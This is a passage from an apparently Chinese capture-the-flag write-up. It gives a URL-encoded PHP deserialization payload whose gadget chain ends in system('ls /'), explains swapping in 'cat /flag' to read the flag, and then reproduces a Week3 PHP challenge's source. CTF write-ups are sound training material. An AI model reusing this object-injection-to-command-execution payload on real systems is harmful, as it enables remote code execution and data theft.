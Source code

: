 ```php
```

获得如下代码

nature=O%3A6%3A%22Nature%22%3A1%3A%7Bs%3A3%3A%22sea%22%3BO%3A3%3A%22Sea%22%3A1%3A%7Bs%3A6%3A%22animal%22%3BO%3A5%3A%22Shark%22%3A1%3A%7Bs%3A11%3A%22%00Shark%00word%22%3BO%3A4%3A%22Sink%22%3A1%3A%7Bs%3A9%3A%22%00Sink%00cmd%22%3Bs%3A15%3A%22system%28%27ls+%2F%27%29%3B%22%3B%7D%7D%7D%7D

![](https://s2.loli.net/2024/11/17/Ba9KOikJPYof7sb.png)

之后将文件中的ls /更改为cat /flag输出反序列化之后即可获得flag

![](https://s2.loli.net/2024/11/17/JrNLZXDC6RTK74m.png)

![](https://s2.loli.net/2024/11/17/Ba9KOikJPYof7sb.png)
### Week3

#### 玩原神玩的

```
 <?php
highlight_file(__FILE__);
error_reporting(0);

include 'flag.php';
if (sizeof($_POST['len']) == sizeof($array)) {
  ys_open($_GET['tip']);
} else {
  die("错了！就你还想玩原神？❌❌❌");
}

function ys_open($tip) {
  if ($tip != "我要玩原神") {
    die("我不管，我要玩原神！😭😭😭");
  }
  dumpFlag();
}

function dumpFlag() {
  if (!isset($_POST['m']) || sizeof($_POST['m']) != 2) {
    die("可恶的QQ人！😡😡😡");
  }
  $a = $_POST['m'][0];
  $b = $_POST['m'][1];
  if(empty($a) || empty($b) || $a != "100%" || $b != "love100%" . md5($a)) {
    die("某站崩了？肯定是某忽悠干的！😡😡😡");
  }
  include 'flag.php';
  $flag[] = array();
  for ($ii = 0;$ii < sizeof($array);$ii++) {
    $flag[$ii] = md5(ord($array[$ii]) ^ $ii);
  }
  
  echo json_encode($flag);
} 错了！就你还想玩原神？❌❌❌

```
